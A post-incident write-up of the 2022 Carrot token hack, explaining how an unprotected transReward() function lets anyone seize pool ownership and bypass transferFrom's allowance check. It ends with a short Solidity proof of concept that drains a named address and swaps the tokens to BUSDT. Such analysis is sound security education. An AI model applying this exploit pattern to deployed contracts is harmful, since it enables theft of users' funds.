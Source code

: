 # Carrot

![euler Image](../images/CarrotWhy.drawio.png)


## What's Carrot?
A rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer Bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

The `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the Action-Check pattern, where you act, in this case transferring tokens without explicitly checking for permission. 
The actual check is deferred to a later point in the code, the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the `onlyOwner initPool()` function on the token.

- To pass the `onlyOwner` check, we can gain acces of the contract by the following function:


```solidity
   function transReward(bytes memory data) public {
      pool.functionCall(data);
   }
```

It seems that the function lacks access control and is public for everyone. For the concluding step, the ownership of the pool contract is established by calling the `transReward()` function on the token with the selector `"0xbf699b4b"`, which in English is the "change 
owner" function and the desired address is specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.


# proof of concept (PoC)

```solidity
  // Call vulnerable transReward() to set this contract as owner. No auth control
  CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));
  
  // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
  CARROT_TOKEN.transferFrom(
      0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
  );
  
  // Swap all stolen Carrot to BUSDT
  _CARROTToBUSDT();
```


![euler Image](../images/https://gifsec.com/wp-content/uploads/2022/11/stitch-gif-27.gif)


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
